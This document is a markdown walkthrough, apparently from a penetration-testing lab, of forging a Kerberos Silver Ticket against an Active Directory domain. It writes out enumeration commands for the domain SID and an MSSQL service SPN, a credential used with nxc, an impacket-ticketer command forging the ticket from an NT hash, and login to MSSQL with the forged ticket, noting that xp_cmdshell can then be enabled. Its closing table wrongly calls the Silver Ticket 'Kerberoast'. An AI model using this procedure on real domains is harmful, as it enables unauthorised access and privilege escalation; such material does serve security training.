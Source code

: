 ## What is a Silver Ticket?
Tickets used to forged Kerberos Ticket Granting Service (TGS) tickets that provide access to specific services on targeted servers. They are limited to the service they are designed for and do not grant domain-wide access.

## How to ?

### Pre-requisite
- FQDN of target host: The fully qualified domain name of the server hosting the Kerberos service.  
Example: fileserver.domain.local

- Service Name: The Kerberos service type bound to the SPN in AD (e.g., cifs, http, mssql).  
Example: cifs

- NTLM Hash (RC4 key): NT hash of the account (service account, computer account, or user account) used for Kerberos encryption/decryption.  
Example: 8846f7eaee8fb117ad06bdd830b7586c


#### Domain SID

```
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> (Get-ADdomain).DomainSID

BinaryLength AccountDomainSid                          Value
------------ ----------------                          -----
24 S-1-5-21-1969309164-1513403977-1686805993 S-1-5-21-1969309164-1513403977-1686805993
```          
#### TARGET SPN
```
Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
DistinguishedName     : CN=svc_mssql,CN=Users,DC=nagoya-industries,DC=com
Enabled               : True
GivenName             : svc_mssql
Name                  : svc_mssql
ObjectClass           : user
ObjectGUID            : df7dda21-173f-4a4a-88ed-70d69481b46e
SamAccountName        : svc_mssql
ServicePrincipalNames : {MSSQL/nagoya.nagoya-industries.com}
SID                   : S-1-5-21-1969309164-1513403977-1686805993-1136
Surname               :
UserPrincipalName     : svc_mssql@nagoya-industries.com

(Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames).ServicePrincipalNames

MSSQL/nagoya.nagoya-industries.com
```

#### NTHASH
Use [ntlm-hash-generator](https://codebeautify.org/ntlm-hash-generator)

#### Kerberos Configuration
Create `krb.conf` file
```
nxc smb 192.168.127.21 -u christopher.lewis -p P@ssword123 --generate-krb5-file nagoya_krb5
```
Edit `/etc/hosts` and save the files
```
export KRB5_CONFIG=./nagoya_krb5
```
### SILVER TICKET

Get Ticket for target user 
```
ftime impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -dc-ip 192.168.127.21 -spn MSSQL/nagoya.nagoya-industries.com svc_mssql
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for nagoya-industries.com/svc_mssql
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in svc_mssql.ccache
```
Export the ccache file
```
export KRB5CCNAME=./svc_mssql.ccache
```
Authenticate into the target service
```
ftime proxychains impacket-mssqlclient -k nagoya.nagoya-industries.com
```

### Password Authentication vs Kerberoast Authentication

| Aspect | Password Authentication | Kerberoast (Silver Ticket) |
|--------|-------------------------|-----------------------------|
| Method | Direct NTLM/password login to service | Forged Kerberos TGS for service SPN |
| Auth Type | NTLM/password-based | Kerberos ticket-based |
| Privilege Data | May lack full AD group info | Full PAC; can forge high privileges |
| Trust Source | Service verifies credentials | Service trusts DC-signed ticket |
| MSSQL Impact | Limited to real user rights | Can enable & run `xp_cmdshell` |
